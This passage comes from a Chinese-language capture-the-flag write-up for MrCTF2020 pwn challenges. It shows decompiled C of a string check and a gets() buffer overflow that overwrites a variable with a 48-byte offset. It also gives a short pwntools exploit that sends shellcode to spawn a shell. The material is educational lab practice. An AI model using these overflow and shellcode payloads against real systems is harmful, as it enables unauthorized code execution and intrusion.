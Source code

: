 > `v5="ju3t_@_f@k3_f1@g"`

`check`函数如下：

```c
signed __int64 __fastcall check(__int64 a1){
  int i; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = strlen(fake_flag);
  for ( i = 0; ; ++i )
  {
    if ( i == v3 )
      return 1LL;
    if ( *(i + a1) != fake_flag[i] )
      break;
  }
  return 0LL;
}
```

> 其中`fake_flag`位于`.data`段， `fake_flag = "n0t_r3@11y_f1@g"`

### 解题思路

`gets(&v4)`存在溢出，将`v4`后的`v5`覆盖为`n0t_r3@11y_f1@g`即可通过`check`

### exp
```python
offset = 48
payload = 'A'*offset
payload += 'n0t_r3@11y_f1@g'
sl(payload)
```



## shellcode
- 题目描述：
  
    > zaima, 有人想试试你的shell麦吉克
- 题目附件：[shellcode](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MrCTF2020/pwn/shellcode/shellcode)
- 考察点：shellcode
- 难度：入门
- 初始分值：500
- 最终分值：120
- 完成人数：47

### 程序分析
没啥好分析的，输入shellcode即可。

### exp
```python
payload = asm(shellcraft.sh())
sl(payload)
```

